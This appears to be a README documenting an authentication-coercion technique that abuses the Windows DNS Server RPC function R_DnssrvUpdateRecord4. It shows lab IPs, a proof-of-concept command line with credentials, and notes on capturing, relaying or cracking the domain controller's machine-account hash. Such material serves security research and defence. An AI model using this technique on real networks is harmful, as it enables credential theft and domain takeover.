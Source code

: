 # MS-DNSP - Remote call to R_DnssrvUpdateRecord4 (opnum 17)

## Summary

 - **Protocol**: [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a)

 - **Protocol UUID**: 50abc2a4-574d-40b3-9d66-ee4fd5fba076

 - **Protocol version**: 0.0

 - **SMB Named pipe**: `\PIPE\DNSSERVER`

 - **Function name**: [`R_DnssrvUpdateRecord4`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/3a6696b1-13ad-46b4-8f87-43e65ddb56e5)

 - **Function operation number**: `17`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\DNSSERVER` and bind to the desired [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol (with uuid `50abc2a4-574d-40b3-9d66-ee4fd5fba076` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\DNSSERVER` This pipe is connected to the protocol [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) and allows to call RPC functions of this protocol. We will then call the remote [`R_DnssrvUpdateRecord4`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/3a6696b1-13ad-46b4-8f87-43e65ddb56e5) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_DnssrvUpdateRecord4('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
LONG R_DnssrvUpdateRecord4(
      [in]                    handle_t             hBindingHandle,
      [in]                    DWORD                dwClientVersion,
      [in]                    DWORD                dwSettingFlags,
      [in, unique, string]    LPCWSTR              pwszServerName,
      [in, unique, string]    LPCWSTR              pwszVirtualizationInstanceID,
      [in, unique, string]    LPCSTR               pszZone,
      [in, unique, string]    LPCWSTR              pwszZoneScope,
      [in, string]            LPCSTR               pszNodeName,
      [in, unique]            PDNS_RPC_RECORD      pAddRecord,
      [in, unique]            PDNS_RPC_RECORD      pDeleteRecord
    );
```

## References

 - Documentation of protocol [MS-DNSP]: Domain Name Service (DNS) Server Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a

 - Documentation of function `R_DnssrvUpdateRecord4`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/3a6696b1-13ad-46b4-8f87-43e65ddb56e5